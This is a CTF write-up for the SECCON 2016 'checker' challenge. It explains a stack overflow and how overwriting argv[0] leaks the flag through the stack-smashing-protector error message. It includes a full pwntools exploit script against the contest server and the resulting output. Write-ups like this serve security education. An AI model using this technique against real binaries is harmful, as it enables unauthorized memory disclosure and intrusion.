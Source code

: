 title: SECCON CTF 2016 -- checker
tags:
  - SECCON
  - CTF
  - BOF
  - Pwnable
  - Python
categories:
  - write-ups
author: bruce30262
date: 2016-12-12 08:02:00
---
**Category:** Exploit
**Points:** 300

<!-- more -->  

64 bit ELF with Full RELRO, stack canary, NX enabled, No PIE.  

A quick run of the program: 
```
$ ./checker 
Hello! What is your name?
NAME : 123

Do you know flag?
>> 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : asdf
You are a liar...
```

By reversing the binary, we found that the program use a function named `getaline()` to read the user input. 
```c getaline
while ( buf && read(0, &buf, 1uLL) )
{
    if ( buf == 10 )
        buf = 0;
    *(_BYTE *)(a1 + (signed int)v4++) = buf; // a1 = input buffer
}
```
We can see that the `getaline()` function is just like `gets()` in `stdio.h`, so the program itself has multiple stack overflow vulnerabilities.   

```
$ ./checker
Hello! What is your name?
NAME : 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You are a liar...
*** stack smashing detected ***: ./checker terminated
[1]    70548 abort      ./checker
```

Although we can easily overwrite the return address, however the program has the stack smashing protector (SSP) enabled. Luckliy, the program will read the flag's content and stored it into a buffer which lies in the `.bss` section before entering the main function. So, we can try to **overwrite the content of `argv[0]` ( which stores a `char*` pointer of the program file path ) into the flag buffer's address**. Then, we smash the stack and trigger the SSP, which will then output the following error message: 
```
*** stack smashing detected ***: [flag content] terminated
```

Notice that the original content of `argv[0]` stores a 6 bytes memory address, while the flag's buffer address is 3 bytes (`0x6010c0`). So we'll have to null out the `argv[0]` first before we change it into `0x6010c0`, or else it will crash the program before it was able to output the error message.  
```python exp_checker.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "checker.pwn.seccon.jp"
PORT = 14726
ELF_PATH = "./checker"
LIBC_PATH = ""

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)


if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    pad = 0x178

    r.sendlineafter(": ", "aaaa")
    
    # null out argv[0]
    for i in xrange(8,-1,-1):
        payload = "A"*pad + "B"*i
        r.sendlineafter(">> ", payload)
    
    r.sendlineafter(">> ", "yes")

    # overwrite argv[0] to flag buffer
    payload = "A"*pad + p64(0x6010c0)
    
    r.sendlineafter(": ", payload)
    r.interactive()
    
```

Although the exploit works on the local machine, it failed to work on the remote side. I sent the payload for like a hundred times and it just won't give me the flag. It really frustrated me at that moment because I was so close to capture the flag and the contest is about to end in 5 minutes......  

But there's nothing more I can do, so I just keep sending the same payload again and again, hoping that  it will work at the end of the contest. And then, something amazing happened...
```
[+] Opening connection to checker.pwn.seccon.jp on port 14726: Done
You are a liar...
*** stack smashing detected ***: SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4} terminated
[*] Got EOF while reading in interactive
```

lol WTF ? 

I still don't know why it will work at the very end of the contest until now ! I mean it's the same payload ! How is this even possible ? Anyway I managed to submit the flag right before the end of the contest and get the damn 300 points ... What an end @_@!  

flag: `SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4}`